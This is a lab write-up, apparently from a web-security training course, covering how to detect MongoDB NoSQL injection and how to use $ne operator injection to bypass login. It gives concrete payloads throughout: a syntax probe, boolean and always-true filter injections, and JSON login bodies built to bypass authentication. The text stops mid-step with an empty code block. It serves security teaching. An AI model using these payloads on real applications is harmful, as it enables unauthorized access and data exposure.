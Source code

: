 # Navigation
- [Detecting NoSQL injection](#detecting-nosql-injection)
- [Exploiting NoSQL operator injection to bypass authentication](#exploiting-nosql-operator-injection-to-bypass-authentication)
- [Exploiting NoSQL injection to extract data](#exploiting-nosql-injection-to-extract-data)
- [Exploiting NoSQL operator injection to extract unknown fields](#exploiting-nosql-operator-injection-to-extract-unknown-fields)
# Detecting NoSQL injection
- Display unreleased products
1. Load page
2. Select a category of items reveals a GET request with a URL parameter `category`
```
GET /filter?category=Gifts
```
3. Submit probe NoSQL syntax injection payload
```
GET /filter?category=%27%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00
```
- The payload below is the non URL-encoded version
```
'"`{
;$Foo}
$Foo \xYZ
```
4. Receive `500` error and see detailed error message
```
Command failed with error 139 (JSInterpreterFailure): &apos;SyntaxError: unterminated string literal :
functionExpressionParser@src/mongo/scripting/mozjs/mongohelpers.js:46:25
```
5. Test if you can control conditional statements using TRUE and FALSE payloads
	1. **Note:** You need to maintain a legit value for the `category` parameter e.g. `Gifts` to differentiate between the TRUE and FALSE payloads
```
Gifts'+%26%26+0+%26%26+'x      # false
Gifts'+%26%26+1+%26%26+'x      # true
```
- The true payload returns a larger HTTP response indicating conditional statements can be controlled
6. Submit a payload that always evaluates to TRUE
```
GET /filter?category=Gifts'||'1'=='1
```
# Exploiting NoSQL operator injection to bypass authentication
- Log into the application as the `administrator`
1. Login with `wiener:peter` and see POST request to login uses JSON body
```json
{"username":"wiener","password":"peter"}
```
2. Test operator injection in the username field to see if we can still authenticate with the correct password and injected username
```json
{"username":{"$ne":"invalid_username"},"password":"peter"}
```
- 302 redirect to Wiener's account indicates successful injection
3. Test same injection this time only on the password field
```json
{"username":"wiener","password":{"$ne":"invalid_password"}}
```
- 302 redirect to Wiener's account indicates successful injection
4. Trying to inject both fields simultaneously with `$ne` operators triggers a 500 error
```json
```